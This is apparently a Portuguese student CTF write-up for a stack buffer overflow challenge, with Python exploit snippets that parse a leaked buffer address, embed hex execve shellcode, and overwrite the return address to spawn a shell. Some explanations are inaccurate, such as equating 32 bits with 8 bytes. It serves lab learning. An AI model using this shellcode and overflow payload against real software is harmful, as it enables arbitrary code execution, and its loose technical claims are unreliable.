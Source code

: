 # CTF - WEEK 8[](url)

## Challenge #2

- Tendo uma stack com permissão de execução e um buffer overflow. O que será que se pode fazer?

**1.** Ao executar o ficheiro "program" (usando o _checksec_), podemos verificar que este imprime na shell o endereço da variável buffer. Iremos usar este valor mais tarde.

![Terminal print - execution of program file](CTFs/Img/Semana8-Desafio2/1.execute_program.png)

![Terminal print - buffer address](CTFs/Img/Semana8-Desafio2/2.gdb_buffer_address.png)

**2.** Ao usar o ficheiro _exploit-example.py_ de outros CTFs, podemos adaptar o mesmo para que funcione no CTF desta semana. <br>Explicação do código (do ficheiro "exploit-example.py"):

**2.1.** Começamos por retirar o valor do endereço do buffer que foi impresso no passo 1) (usamos Regex para obter o endereço de memória).

```py
txt = p.recvuntil(b":").decode()
addr = re.search('0x(.+?).\n', txt).group(1)
```

**2.2.** Transformar o código hexadecimal (corresponde à shell) num array de bytes.

```py
buf = bytearray.fromhex(addr)
buf.reverse()
```

**2.3.** Criar o frame pointer (váriavel "fp"). Sabemos que o frame pointer encontra-se na stack logo a seguir às variáveis locais. Este também tem um tamanho de 32 bits (ou 8 bytes) (o tamanho do frame pointer depende da arquitetura da máquina). Sendo assim, criamos um número hexadecimal constituído por oito 0's em hexadecimal.

![drawing - stack memory](CTFs/Img/Semana8-Desafio2/4.stack.png)

```py
shellcode = bytearray.fromhex("31c050682f2f7368682f62696e89e3505389e1b00bcd80")
fp = bytearray.fromhex("0"*8)
```

**2.4.** Criar a "string" final que será enviada para o exploit.

```py
finalString = b"a"*77 + fp*2 + buf
```

**2.5.** Mandar esta string para a shellcode. Para conseguirmos fazer isso teremos de colocar a string a seguir ao código hexadecimal referente à shell.

```py
p.sendline(shellcode + finalString)
```

### Conclusão

Tentamos fazer overwrite do endereço de retorno da função colocando o código referente à shellcode (shellcode). Quando este retornar este enderenço na função, vai executar o código que estiver nesse endereço, ou seja, vai executar as instruções na shellcode (mas em código).
